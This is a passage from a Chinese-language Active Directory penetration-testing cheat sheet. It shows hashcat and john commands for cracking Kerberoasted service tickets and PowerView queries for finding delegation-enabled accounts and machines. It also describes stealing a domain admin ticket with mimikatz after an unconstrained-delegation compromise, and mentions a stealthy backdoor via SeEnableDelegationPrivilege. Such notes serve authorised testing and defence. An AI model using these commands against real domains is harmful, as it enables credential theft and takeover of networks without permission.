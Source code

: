 - 也可以使用 https://github.com/blacklanternsecurity/Convert-Invoke-Kerberoast

**解密**
```bash
# 使用 hashcat 解密
hashcat -m 13100 hash.txt dict.txt -o /opt/dict/dist.list --force   # 使用字典
hashcat -m 13100 -w 3 -a 3 -m 13100 hash -w 3 -a 3 ?l?l?l?l?l?l?l   # 使用掩码

# 使用 john 破解
./kirbi2john.py /root/empire-dev/downloads/BDW3E2G2ZRKCUS3B/*.kirbi > /tmp/johnkirb.txt
./john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

---

### 委派

#### 查找域中委派主机或账户

> 以下内容来自文章 <sup>[[浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/#%E6%9F%A5%E6%89%BE%E5%9F%9F%E4%B8%AD%E5%A7%94%E6%B4%BE%E4%B8%BB%E6%9C%BA%E6%88%96%E8%B4%A6%E6%88%B7)]</sup>

当服务账号被设置为非约束性委派时，其 `userAccountControl` 属性会包含为 TRUSTED_FOR_DELEGATION;当被设置为约束性委派时，其 userAccountControl 属性包含 TRUSTED_TO_AUTH_FOR_DELEGATION（T2A4D），且 msDS-AllowedToDelegateTo 属性会被设置为哪些协议:

加载 powerview，查询无约束委派账户：
```powershell
Get-NetUser -Unconstrained -Domain ffffffff0x.com

//另外一个版本的Powerview
Get-DomainUser -Properties useraccountcontrol,msds-allowedtodelegateto| fl
```

加载 powerview，查询无约束委派机器：
```powershell
Get-NetComputer -Unconstrained -Domain ffffffff0x.com

//另外一个版本的Powerview
Get-DomainComputer -Unconstrained -Properties distinguishedname,useraccountcontrol -Verbose| ft -a
```

加载 powerview，枚举域内所有的服务账号，查看哪些账号被设置了委派，以及是何种类型的委派设置：
```powershell
Get-NetUser -TrustedToAuth -Domain ffffffff0x.com

Get-DomainUser -TrustedToAuth -Properties distinguishedname,useraccountcontrol,msds-allowedtodelegateto| fl

Get-DomainComputer -TrustedToAuth -Domain ffffffff0x.com
```
当一个用户具备对某个服务账号的 SeEnableDelegationPrivilege 权限时，表示可以更改服务账号的委派设置，一般情况下只有域管理员才具备这个权限。因此也可以利用 SeEnableDelegationPrivilege 属性，制作极其隐蔽的后门。

**案例**

非约束委派攻击：当域控管理员访问 A 服务时，A 服务就会将访问者的 TGT 保存在内存中（此时攻击者无法访问域控），但是攻击者通过 mimikatz 的 sekurlsa::tickets /export 命令导出内存中域控管理员访问 A 服务的票据，将其注入到内存，这时候就可以访问域控。
